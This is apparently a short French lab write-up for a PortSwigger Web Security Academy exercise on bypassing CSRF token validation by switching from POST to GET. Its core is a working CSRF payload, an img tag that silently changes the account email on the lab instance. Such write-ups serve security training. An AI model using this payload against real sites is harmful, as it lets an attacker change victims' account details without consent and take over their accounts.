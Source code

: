 # Lab

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

## Payload

Dans ce lab, les requetes POST requièrent un token CSRF, les requetes GET non.

```html
<img src="https://0af600aa03dbc86586176b2c00ed0004.web-security-academy.net/my-account/change-email?email=pwned@sa.net">
```